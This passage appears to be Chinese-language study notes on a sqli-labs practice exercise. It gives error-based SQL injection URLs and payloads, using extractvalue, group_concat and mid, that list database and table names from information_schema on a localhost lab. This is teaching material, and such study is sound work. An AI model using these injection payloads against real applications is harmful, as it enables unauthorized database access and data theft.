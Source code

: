 payload : 获取所有数据库名

`http://localhost/sqli-labs/Less-4/?id=-1%22)%20and%20extractvalue(%271%27,concat(%27~%27,(select%20group_concat(schema_name)%20from%20information_schema.schemata%20limit%200,1)));%20%23`

> [!NOTE]
>
> 使用 limit 0,1、limit 1,1、等控制偏倚即可查询到所有数据库，也使用 group_concat 一次性全部查询出来。

![局部截取_20250503_225203](./img/局部截取_20250503_225203.png)



> [!IMPORTANT]
>
> updatexml () 函数和extractvalue ()的报错内容长度都不能超过 **32 个字符**
>
> 所以需要使用mid函数来进行字符串截取
>
> 语法：mid(a,b,c)
>
> 从位置b开始，截取a字符串的c位。



获取表名

```url
攻击链接
http://localhost/sqli-labs/Less-4/?id=-1%22)%20and%20extractvalue(1,concat(%27~%27,(select%20mid(group_concat(table_name),1,32)%20from%20information_schema.tables%20where%20table_schema=%27answers%27)))%20%23

payload:
1") and extractvalue(1,concat('~', (select mid(group_concat(table_name),1,32) from information_schema.tables where table_schema='answers'))) %23
```
